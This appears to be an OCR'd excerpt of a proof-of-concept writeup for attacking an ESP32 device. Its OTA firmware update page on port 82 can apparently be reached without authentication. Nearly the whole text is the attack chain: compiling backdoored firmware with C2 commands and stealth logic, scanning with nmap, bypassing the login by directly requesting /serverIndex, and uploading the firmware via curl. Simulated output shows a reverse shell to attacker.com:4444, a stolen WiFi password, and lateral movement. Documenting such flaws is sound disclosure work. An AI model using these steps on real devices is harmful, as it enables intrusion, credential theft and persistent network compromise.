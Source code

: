 ```
    executeC2Commands();
    
    // Continue normal operation (stealth)
    normalLoopLogic();
}

3. Compile malicious firmware
$ pio run
Building: .pio/build/esp32doit-devkit-v1/firmware.bin

Step 2: Identify Target Device
──────────────────────────────────────
$ nmap -p 82 192.168.1.0/24
Host 192.168.1.100:82 open

Step 3: Bypass Authentication
──────────────────────────────────────
# Method 1: Direct access to /serverIndex
$ curl http://192.168.1.100:82/serverIndex
[OTA page loads - no authentication!]

# Method 2: Client-side bypass
# The /login page uses JavaScript validation
# Can be bypassed by directly accessing /serverIndex

Step 4: Upload Malicious Firmware
──────────────────────────────────────
$ curl -X POST http://192.168.1.100:82/update \
    -F "update=@malicious_firmware.bin"

[*] Uploading 893,456 bytes...
[*] Upload complete
[*] Device rebooting...

Step 5: Backdoor Activated
──────────────────────────────────────
[+] Device rebooted with backdoor
[+] Connecting to C2 server: attacker.com:4444
[+] Reverse shell established
[+] Attacker has full control

Attacker's C2 Console:
$ whoami
esp32

$ cat /wifi_config.json
{"ssid":"2.4","password":"P1rates15"}

$ scan_network
Found 47 devices on network

$ lateral_move 192.168.1.50
Attacking next target...

RESULT: Device permanently compromised
        Attacker maintains persistent access
        Can spread to other network devices
```
